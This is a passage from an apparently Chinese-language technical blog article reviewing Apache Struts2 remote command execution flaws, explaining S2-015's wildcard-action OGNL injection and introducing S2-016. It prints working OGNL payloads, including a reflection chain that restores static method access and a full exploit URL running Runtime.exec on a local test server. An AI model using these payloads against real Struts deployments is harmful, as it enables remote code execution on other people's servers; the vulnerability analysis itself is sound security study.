漏洞产生于配置了 Action 通配符 `*`，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```xml
	<package name="S2-015" extends="struts-default">
		<action name="*" class="com.demo.action.PageAction">
			<result>/{1}.jsp</result>
		</action>
	</package>
```

上述配置能让我们访问 `name.action` 时使用 `name.jsp` 来渲染页面，但是在提取 `name` 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 `name` 值的位置比较特殊，一些特殊的字符如 `/` `"` `\` 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 `SecurityMemberAccess` 类中的 `setAllowStaticMethodAccess` 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 `(new java.lang.ProcessBuilder('calc')).start()` 来解决，另外还可以借助 Java 反射机制去间接修改：

    #context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
    
可以构造 Payload 如下：

{% raw %}
    http://localhost:8080/S2-015/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@java.lang.Runtime@getRuntime().exec('calc')}.action
{% endraw %}

![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/8.png)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```xml
		<action name="param" class="com.demo.action.ParamAction">
			<result name="success" type="httpheader">
			  	<param name="error">305</param>
  				<param name="headers.fxxk">${message}</param>
			</result>
		</action>
```

这里配置了 `<param name="errorMessage">${message}</param>`，其中 `message` 为 `ParamAction` 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 `message` 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 `%{1111*2}` 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 `struts.xml` 中使用 `${param}` 引用了 Action 中的变量所导致的，并不针对于 `type="httpheader"` 这种返回方式。

![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/9.png)

### S2-016

> 官方链接：[https://struts.apache.org/docs/s2-016.html](https://struts.apache.org/docs/s2-016.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.15
> 
> 修复摘要：删除 "action:"，"redirect:"，"redirectAction:" 这些前置前缀调用

